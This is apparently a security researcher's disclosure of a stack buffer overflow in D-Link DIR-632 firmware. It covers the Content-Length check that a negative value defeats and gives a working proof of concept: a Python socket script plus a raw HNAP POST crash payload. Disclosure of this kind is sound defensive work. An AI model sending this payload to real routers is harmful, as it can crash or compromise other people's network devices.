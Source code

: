 # Overview
Details of the vulnerability found in the dlink router dir-632.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-632    |  fw103    | httpsfiles.dlink.com.auproductsDIR-632REV_AFirmwareFirmware_v1.03b08DIR632A1_FW103B08.bin   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `get_pure_content` at offset 00424E88, where the `safe_fread` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- This vulnerability occurs when the program parses the `Content` field of a user's POST request. The program only checks whether the `Content-Length` exceeds `1200` bytes, and if it does, it limits the read to `1200` bytes.

- However, if the `Content-Length` is crafted as a negative value, it will be interpreted as a large unsigned integer due to the third parameter of the safe_fread function being of type `unsigned int`. This causes an overflow during data reading, which can trigger a buffer overflow vulnerability.


![second](./assets/2.png)
![4](./assets/4.png)




# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /ywT /i1
SOAPACTION:hom/HNAP1
Content-Length: -3

WRwzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzzy<wlan_wpa_group����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������key_rekey_time>%s</wlan_wpa_groupkey_rekey_time>wzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywz�wzywzzywzywzywzywzywzywzywzywzywzywzywzywzywzywzywz
SOAPACqION:HNAP1www.cam
```

# Vulnerability Verification Screenshot
##  dir-632
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
